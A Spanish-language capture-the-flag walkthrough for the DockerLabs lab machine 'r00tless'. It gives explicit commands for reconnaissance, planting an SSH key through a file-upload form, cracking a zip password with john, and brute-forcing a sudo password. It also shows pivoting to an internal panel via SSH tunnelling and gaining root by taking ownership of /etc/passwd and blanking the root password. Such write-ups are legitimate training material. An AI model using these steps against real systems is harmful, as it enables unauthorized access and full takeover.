


Máquina "r00tless" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil



# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.18.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Mon Sep  2 12:25:22 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.18.0.2
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-09-02 12:25:23 -03 for 18s
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:7b:d3:96:f6:83:bb:bd:24:86:b4:a8:f6:59:c3:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGf6s7gssb1mfIpKhu763lIVB1lf1TsdwTDEIb2ibDLtFk/24JFQ4jW4CRhComPpaCDdaZeG/TismwPWLKgTh3s=
|   256 29:49:38:ae:44:75:d8:88:2a:b6:98:55:00:bd:24:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMC1r8Ycj40ZtNpiOCWFte+fV+Zp+iHKDJ0AgSoR/hXx
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Subir Archivo
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 41060/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 16455/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 17591/udp): CLEAN (Failed to receive data)
|   Check 4 (port 32176/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-09-02T15:25:36
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  2 12:25:41 2024 -- 1 IP address (1 host up) scanned in 18.71 seconds
```

Vemos el puerto `22, 80, 139 y 445` abiertos corriendo lo siguiente:

`22: OpenSSH`

`80: Apache httpd`

`139 y 445: Samba`

Sabiendo esto iremos a la web.

###### Puerto 80:


Por lo que parece podemos subir archivos, pero antes de ponernos a probar eso mejor hacemos un poco de fuzzing  para ver si hay otro archivo.

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.19.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2410]
/upload.php           (Status: 200) [Size: 56]
/readme.txt           (Status: 200) [Size: 78]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
Progress: 191519 / 882244 (21.71%)
===============================================================
Finished
===============================================================
```

Como vemos, hay un "readme.txt" que si entramos desde el navegador tiene esto:

```css
It may be that the file that is being uploaded is being uploaded in a .ssh/?
```

Esto significa que si realmente se sube en ".ssh", podemos subir nuestro "id_rsa.pub" con el nombre "authorized_keys" y conectarnos sin necesidad de clave, el problema es que necesitamos un usuario, por lo que podriamos probar en ver si encontramos algun usuario en el samba y ver si nos sirve.

```css
enum4linux <ip>
```

Luego de ejecutarlo veremos muchas cosas, pero lo mas importante es esta línea:

```css
S-1-22-1-1000 Unix User\root-false (Local User)
S-1-22-1-1001 Unix User\sambauser (Local User)
S-1-22-1-1002 Unix User\less (Local User)
S-1-22-1-1003 Unix User\passsamba (Local User)
```

Estos son los usuarios que hemos encontrado, por lo que ahora si subiremos el "id_rsa" como "authorized_keys" y luego nos conectaremos.

# INTRUSION

Para generar una clave "id_rsa" (en caso de que no la tengamos), debemos ejecutar en nuestra máquina atacante el comando `ssh-keygen`. Una vez ejecutado nos generará un archivo llamado "id_rsa" y "id_rsa.pub" en nuestro directorio `home` y metido en una carpeta llamada `.ssh`. Ahora que ya tenemos la clave simplemente la copiamos a algún lugar "comodo" para poder subirlo, lo haremos de la siguiente manera:

```css
cp ~/.ssh/id_rsa.pub ~/authorized_keys
```

Una vez hecho eso, subimos el archivo "authorized_keys" en la página. Ahora vamos al directorio `.ssh` donde se encuentra el archivo "id_rsa" y le damos permisos de ejecución ejecutando `chmod 600 id_rsa` y vamos probando cada uno de los usuarios encontrados de la siguiente manera:

```css
ssh -i id_rsa <user>@<ip>
```

Luego de probar, el usuario que nos sirve es "passsamba"

# ESCALADA DE PRIVILEGIOS

### Passsamba

Si ejecutamos `ls` podremos ver una nota que contiene lo siguiente:

```css
What would "sambaarribasiempre" be used for?
```

Al parecer es una contraseña, por lo que podemos ejecutar `su` con los demás usuarios y ver si alguno tiene esa contraseña.

Luego de probar, el usuario que la tiene es "sambauser"

### Sambauser

Por lo que vemos el usuario "sambauser" no tiene nada interesante, por lo que podria significar que es la clave para el smb, sabiendo eso simplemente vamos a nuestra máquina atacante y ejecutamos lo siguiente:

```css
smbmap -u "sambauser" -p "sambaarribasiempre" -d workgroup -H 172.19.0.2
```

```css
[+] IP: 172.19.0.2:445	Name: 172.19.0.2                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	read_only_share                                   	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (89db6cae5624 server (Samba, Ubuntu))
```

Como vemos está el directorio "read_only_share" al cual tenemos acceso de lectura, por lo que ahora usaremos `smbclient` para conectarnos y ver que lo que hay dentro:

```css
smbclient //172.19.0.2/read_only_share -U sambauser -W workgroup
```

cuando se nos pida la contraseña la ponemos y ya podemos ejecutar `ls`. Al hacerlo vemos lo siguiente:

```css

smb: \> ls
  .                                   D        0  Tue Aug 27 06:21:22 2024
  ..                                  D        0  Tue Aug 27 06:21:22 2024
  secret.zip                          N      242  Tue Aug 27 06:21:14 2024

		84999492 blocks of size 1024. 36921604 blocks available
smb: \> 
```

por lo que nos lo guardamos ejecutando `get secret.zip`. Una vez hecho eso nos salimos e intentamos descomprimir el archivo, pero al hacerlo nos pide una password, por lo que podemos acudir a `zip2john` para extraer el hash del zip y luego intentar crackear la contraseña con `john`. Para hacerlo simplemente ejecutamos en nuestra máquina local `zip2john secret.zip > hash`, esto nos guardará el hash en un archivo llamado "hash", luego simplemente ejecutamos `john --wordlist=<wordlist> hash` y listo.

```css
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwert            (secret.zip/secret.txt)     
1g 0:00:00:00 DONE (2024-09-02 14:04) 50.00g/s 204800p/s 204800c/s 204800C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Como vemos el zip tiene de contraseña "qwert" por lo que lo descomprimimos con `unzip secret.zip` y metemos la contraseña. Una vez descomprimido nos dejará un "secret.txt" que si lo leemos tiene la contraseña del usuario "root-false" pero en `base64`, que si lo pasamos a texto vemos que la contraseña es "passwordbadsecureultra"

### Root-false

Una vez escalamos a este usuario, veremos que hay un mensaje que dice lo siguiente:

```css
Mario, remember this word, then the boss will get angry:

"pinguinodemarioelmejor"
```

al parecer pueden ser credenciales, pero no tenemos en donde ponerlas. Luego de buscar con `netstat` e `ifconfig` pero no encontrar nada, se me ocurre ejecutar `ip a` y veo esto:

```css
eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet 10.10.11.5/24 scope global eth0
       valid_lft forever preferred_lft forever
```

Como vemos hay una ip "10.10.11.5", que si le hacemos un `curl -v 10.10.11.5` desde la misma máquina se ve que es un panel de inicio de sesión y además está en el puerto 80, ahora vamos a nuestra máquina atacante y ejecutamos lo siguiente:

```css
ssh root-false@<ip> -L 9090:10.10.11.5:80
```

una vez hecho eso, al ir a el navegador en nuestra máquina atacante y entrar a "http://127.0.0.1" veremos un panel de inicio de sesión, ponemos las credenciales "mario:pinguinodemarioelmejor" y logramos logearnos. Como la página luego de logearnos no tiene nada que nos sirva, podemos mirar el codigo fuente, y ahi si vemos algo a la derecha:

```css
<!--ultramegatextosecret.txt-->
```

Al parecer es un archivo, por lo que podemos pegarlo en la url:


Como vemos es un "cuento" creado por "less", que si recordamos es un usuario de la máquina, por lo que en alguna parte puede estar la contraseña.

Para conseguir la contraseña podemos guardarnos el texto usando curl, para eso vamos a la máquina victima y ejecutamos lo siguiente:

```css
curl "http://10.10.11.5/ultramegatextosecret.txt" > text
```

Esto nos dejará un archivo llamado "text" con el texto, por lo que ahora podemos separar palabra por palabra el texto para luego usar el script [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce/) con el diccionario que consigamos, para hacerlo simplemente ejecutamos lo siguiente:

```css
cat text | tr ' ' '\n' > pass
```

si revisamos el nuevo archivo llamado "pass", veremos que todo el texto está separado por palabras, ahora simplemente copiamos el script ".sh" del repositorio y nos creamos uno en la máquina victima, le damos permisos con `chmod +x <nombre>.sh` y luego ponemos `./<nombre>.sh less pass`; luego de esperar un rato veremos este mensaje:


Ahora ejecutamos `su less` y ponemos la contraseña.

### less

Si ejecutamos un `sudo -l` veremos que podemos ejecutar `chown` como root, por lo que ejecutaremos esto:

```css
sudo chown less:less /etc/passwd
```

esto hará que el archivo sea de nuestra propiedad, por lo que lo modificamos con nano y borramos la x de root, seria esta:

```css
root:<<<<<x>>>>>:0:0:root:/root:/bin/bash
```

deberia quedar así:

```css
root::0:0:root:/root:/bin/bash
```

guardamos y ahora ejecutamos `su` y listo, ya seremos root.



Gracias por leer.